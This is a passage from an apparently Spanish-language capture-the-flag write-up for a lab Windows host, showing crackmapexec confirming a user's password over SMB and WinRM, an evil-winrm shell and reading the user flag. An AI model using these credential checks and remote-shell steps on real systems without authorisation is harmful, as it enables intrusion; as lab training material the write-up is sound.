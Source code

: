 Comprobémoslo:
```bash
crackmapexec smb 192.168.212.4 -u 'music' -p '******'
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
SMB         192.168.212.4   445    BIG              [+] bbr.thl\music:******
```

Probemos si funciona contra el **servicio WinRM**:
```bash
crackmapexec winrm 192.168.212.4 -u 'music' -p '******'
SMB         192.168.212.4   5985   BIG              [*] Windows 10 / Server 2016 Build 14393 (name:BIG) (domain:bbr.thl)
HTTP        192.168.212.4   5985   BIG              [*] http://192.168.212.4:5985/wsman
WINRM       192.168.212.4   5985   BIG              [+] bbr.thl\music:****** (Pwn3d!)
```
Sí sirve.

Vamos a autenticarnos con este usuario:
```batch
evil-winrm -i 192.168.212.4 -u 'music' -p '******'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
.                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\TEMP\Documents> whoami
bbr\music
```
Estamos dentro.

Y curiosamente, este usuario sí tiene la flag:
```batch
*Evil-WinRM* PS C:\Users\TEMP\Documents> cd C:\Users\Music\Documents
*Evil-WinRM* PS C:\Users\Music\Documents> dir


    Directory: C:\Users\Music\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2024  12:53 AM             32 user.txt

*Evil-WinRM* PS C:\Users\Music\Documents> type user.txt
...
```
Con esto hecho, ya tenemos la contraseña de 2 usuarios.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
